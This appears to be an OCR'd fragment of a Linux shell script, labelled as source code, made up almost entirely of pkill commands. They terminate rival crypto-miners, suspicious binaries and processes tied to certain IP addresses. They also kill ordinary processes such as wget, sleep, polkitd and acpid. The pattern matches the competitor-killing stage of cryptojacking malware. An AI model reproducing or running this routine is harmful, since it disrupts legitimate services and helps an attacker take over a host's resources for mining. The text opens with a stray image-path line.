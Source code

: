 		pkill -f minergate-cli
		pkill -f minexmr
		pkill -f mixnerdx
		pkill -f mule
		pkill -f mutex
		pkill -f myatd
		pkill -f performedl
		pkill -f polkitd
		pkill -f pro.sh
		pkill -f pubg
		pkill -f pvv
		pkill -f root.sh
		pkill -f rootv2.sh
		pkill -f rootv3.sh
		pkill -f servcesa
		pkill -f sleep
		pkill -f sourplum
		pkill -f stratum
		pkill -f vsp
		pkill -f watch-smart
		pkill -f wget
		pkill -f ysaydh
		pkill -f acpid
		pkill -9 ./atd
		pkill -9 /tmp/wa/httpd.conf
		pkill -9 108.61.186.224
		pkill -9 128.199.86.57
		pkill -9 142.4.124.164
		pkill -9 192.99.56.117
		pkill -9 45.76.102.45
		pkill -9 ./AnXqV.yam
		pkill -9 ./BI5zj
		pkill -9 ./Carbon
		pkill -9 ./Duck.sh
		pkill -9 ./Guard.sh
		pkill -9 ./JnKihGjn
		pkill -9 ./KGlJwfWDbCPnvwEJupeivI1FXsSptuyh
		pkill -9 ./NXLAi
		pkill -9 ./XJnRj
		pkill -9 ./accounts-daemon
		pkill -9 ./askdljlqw
		pkill -9 ./atd
		pkill -9 ./bonn.sh
		pkill -9 ./bonns
		pkill -9 ./carbon
		pkill -9 ./conn.sh
		pkill -9 ./conns
		pkill -9 ./crypto-pool
		pkill -9 ./ddg
		pkill -9 ./donns
		pkill -9 ./gekoCrw
		pkill -9 ./gekoCrw32
		pkill -9 ./gekoba2anc1
		pkill -9 ./gekoba5xnc1
		pkill -9 ./gekobalanc1
		pkill -9 ./gekobalance
		pkill -9 ./gekobalanq1
		pkill -9 ./gekobnc1
		pkill -9 ./ir29xc1
		pkill -9 ./irpbalanc1
		pkill -9 ./jIuc2ggfCAvYmluL2Jhc2gi
		pkill -9 ./jaav
		pkill -9 ./jva
		pkill -9 ./kw.sh